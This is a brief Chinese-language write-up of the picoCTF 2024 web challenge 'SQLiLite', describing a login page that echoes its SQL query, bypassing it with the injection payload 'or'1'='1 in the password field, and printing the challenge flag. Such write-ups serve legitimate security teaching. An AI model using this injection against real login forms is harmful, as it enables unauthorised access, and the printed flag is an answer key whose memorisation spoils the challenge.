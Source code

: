 ```yaml
---
title: SQLiLite - WriteUp
date: 2024-08-15
authors:
  - name: YI-XUAN, CHEN
    id: tntrenjin
    image: https://avatars.githubusercontent.com/u/45209009
tags:
  - picoCTF 2024
  - writeup
  - Medium
  - Web Exploitation
---
```


<!--more-->

### 打開網頁

是個登入介面，單看標題就是要你做「SQL Injection」
![](./sqlilite/2024-08-15T00.55.44.png)

### 測試

當你隨便輸入按登入後，會跳出 SQL query 的指令
![](2024-08-15T00.59.19.png)

### 攻擊

```
Username: admin
Password: 'or'1'='1
```

![](./sqlilite/2024-08-15T00.58.25.png)
登入成功！但沒東西？！按一下 F12
![](./sqlilite/2024-08-15T01.06.27.png)
嗯...Flag 被隱藏了

### Flag

> picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}
